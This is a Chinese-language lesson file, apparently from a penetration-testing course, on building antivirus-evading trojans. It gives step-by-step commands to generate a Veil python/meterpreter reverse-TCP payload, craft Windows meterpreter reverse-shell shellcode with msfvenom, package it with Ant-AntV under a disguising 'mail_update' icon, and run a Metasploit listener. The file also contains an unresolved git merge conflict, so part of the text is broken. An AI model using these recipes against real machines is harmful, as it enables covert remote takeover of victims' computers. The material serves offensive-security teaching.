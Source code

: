 ## 利用veil的docker制作免杀
#### 1.安装docker包
```shell
#1.安装Linux操作系统

#2.配置IP地址

#3.修改yum配置文件，指定为本地光盘源安装
vim /etc/yum.repo.d/a.repo
[a]
baseurl=file:///a/AppStream
gpgcheck=0
enabled=1

[b]
baseurl=file:///a/BaseOS
gpgcheck=0
enabled=1

#4.安装createrepo工具为docker包创建关联
yum install createrepo

#5.将docker的rpm包导入系统的/opt/docker目录

#6.利用createrepo工具创建docker包关联
createrepo -v /opt/docker

#7.在yum文件中添加docker仓库
[c]
baseurl=file:///opt/docker
gpgcheck=0
enabled=1

#8.安装docker
yum install docker-*
```

#### 2.导入veil容器
```shell
#1.查看当前docker镜像
docker images

#2.导入docker镜像
docker load < veil.tar

#3.通过bash启动镜像
docker run -it --name test 镜像名/镜像ID bash
#--name为启动的镜像命名
```

#### 3.通过veil制作免杀
```shell
#1.veil进入veil Evasion工具
veil

#2.使用Evasion工具
use Evasion

#3.查看Evasion工具支持的攻击载荷
list

#4.选择相应载荷制作免杀，这里要说明，系统要有相应的软件环境才能制作对应编程语言的免杀
#选择python/meterpreter/rev_tcp.py
use python/meterpreter/rev_tcp.py
#使用options查看载荷参数
options
#配置载荷参数中的lhost(地址为攻击机的地址)
set lhost 192.168.100.1

#5.生成载荷
generate
#出现[>] Please enter the base name for output files (default is payload): 表示输入生成载荷的名称
#选择PyInstaller,输入1
1
#生成完成后的载荷为.exe保存路径为/var/lib/veil/output/compiled/test.exe

#6.将容器内的载荷拷贝到外部
docker cp 容器ID:/var/lib/veil/output/compiled/test.exe /opt/docker
#                 文件的容器路径                          操作系统本地路径
```
<<<<<<< HEAD:渗透攻击课程/Lesson7/3.木马免杀技术.md
## 三方免杀------Ant-Antv
#### 环境:
- kali
- python 3.9
- Win10 22H2(制作免杀攻击机)
- Win10 21H2(靶机)

#### 安装和下载Ant-Antv
```shell

git clone https://github.com/shellfeel/Ant-AntV
cd Ant-AntV

#在Windows 10上执行pip
pip install -i https://mirrors.aliyun.com/pypi/simple/ -r requirements.txt
```

#### 生成shellcode
```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.12.22 LPORT=5555 -f raw -o 1.bin

#将生成的shellcode命名成beacon.bin 放到当前bean_raw路径下 如需给程序加上icon，可以将icon命名成mail_update.icon(可修改gen_trojan.py 48行形参out_file_name 来更改，这个参数本身也是生成的程序名)放入resource目录 执行下面命令进行打包程序。

python gen_trojan.py
```

#### 开启监听
```shell
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.12.22
set LPORT 5555
exploit
```














```
=======


## 开源木马免杀
>>>>>>> 17a52480bf904f085f19f4b294ca0be4c51178fc:渗透攻击课程/Lesson6/3.木马免杀技术.md
